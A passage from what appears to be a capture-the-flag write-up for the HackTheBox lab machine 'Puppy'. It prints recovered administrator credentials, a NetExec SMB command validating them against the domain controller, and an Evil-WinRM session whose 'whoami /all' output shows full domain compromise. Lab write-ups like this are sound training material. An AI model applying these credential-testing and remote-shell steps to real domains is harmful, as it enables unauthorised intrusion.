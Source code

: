 New credentials inside:
`seph.cooper_adm:FivethChipOnItsWay2025!`
# Connecting as domain administrator

I test these new credentials with NetExec.

```bash
[Oct 17, 2025 - 22:40:45 (CEST)] exegol-m3ringue x64 # nxc smb DC.puppy.htb -u steph.cooper_adm -p 'FivethChipOnItsWay2025!'
SMB         10.129.232.75   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.232.75   445    DC               [+] PUPPY.HTB\steph.cooper_adm:FivethChipOnItsWay2025! (admin)
```

These credentials worked. Moreover, `steph.cooper_adm` is an administrator on the DC.
I Connect with this account.

```powershell
*Evil-WinRM* PS C:\Users\steph.cooper_adm\Documents> whoami /all

USER INFORMATION
----------------

User Name              SID
====================== ==============================================
puppy\steph.cooper_adm S-1-5-21-1487982659-1829050783-2281216199-1111


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

I am now connected as an administrator and full compromised the domain.
